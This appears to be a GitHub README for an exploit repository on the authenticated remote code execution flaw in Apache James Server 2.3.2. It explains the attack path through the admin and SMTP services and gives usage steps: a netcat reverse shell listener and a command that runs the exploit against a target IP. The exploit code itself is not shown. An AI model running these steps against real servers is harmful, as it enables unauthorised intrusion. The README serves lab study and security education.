



# Apache James Server 2.3.2 – Authenticated Remote Code Execution (Exploit-DB 50347)

> ⚠️ **Disclaimer**  
This repository is intended **strictly for educational and research purposes only**.  
The information and code provided here can be used in **controlled environments**, such as private lab machines.  
**Unauthorized use of this code against systems you do not own or have explicit permission to test is illegal and unethical.**  
The author is **not responsible** for any misuse or damages caused.

---

## 🔍 About the Vulnerability

This vulnerability affects **Apache James Server 2.3.2** and allows an **authenticated attacker** to achieve **Remote Code Execution (RCE)** through a combination of exposed services:

- **Remote Admin Interface** on port `4555`
- **SMTP Service** on port `25`

The attacker uses the admin credentials to create a new user, then sends a crafted email containing a payload. When the server processes this email, it triggers command execution under the context of the James server user.

- **Vulnerability Type:** Authenticated Remote Code Execution  
- **Affected Version:** Apache James Server 2.3.2  
- **Authentication Required:** ✅ Yes  
- **Severity:** Critical  
- **Exploit-DB ID:** [50347](https://www.exploit-db.com/exploits/50347)
- **CVE:** _Unknown_ (not assigned)

---

## 📜 References

- [Exploit-DB – 50347](https://www.exploit-db.com/exploits/50347)  
- [Apache James GitHub](https://github.com/apache/james-project)  
- [James Server Documentation](https://james.apache.org/server/)

---

## 🛠️ Exploit Overview

The public exploit from Exploit-DB creates a malicious email that contains a reverse shell command. This is sent using a self-created user account via the exposed admin and SMTP interfaces.

📝 **Important:**  
Make sure to **modify the port numbers inside the exploit script** if your setup uses non-default ports for:
- Admin interface (default: 4555)
- SMTP service (default: 25)


---

## 💥 Exploit Usage
### Step 1: Start Netcat Listener

```bash
nc -nvlp 4444
```

### Step 2: Run the Exploit Script

```bash
python exploit.py <target-ip> <your-ip> <your-port>
```
Replace the IPs and port as per your environment.

✅ Make sure:

Apache James version is 2.3.2

Ports 4555 (admin) and 25 (SMTP) are open

You modify the exploit script if the ports are different

The reverse shell is triggered only after user login


---

## 💥 Demonstration

This exploit was tested in a **private lab setup** using a clean vulnerable instance of Apache James 2.3.2.

### 1. Detecting Apache James Services

An `nmap` scan reveals that the target server is running all James services.



---

### 2. Running the Exploit Script

Command to execute the exploit:

```bash
python exploit.py <target-ip> <your-ip> <your-port>
```



### 3. Reverse Shell Listener
Start a netcat listener on the attacker's machine:
```bash
nc -nvlp 4444
```


## Medium Blog
I’ve written a more in-depth explanation and walkthrough of this exploit on Medium:
👉 [Read the blog on Medium](https://medium.com/@cyberquestor/apache-james-server-2-3-2-authenticated-remote-code-execution-exploit-db-50347-779a21ca0ec8)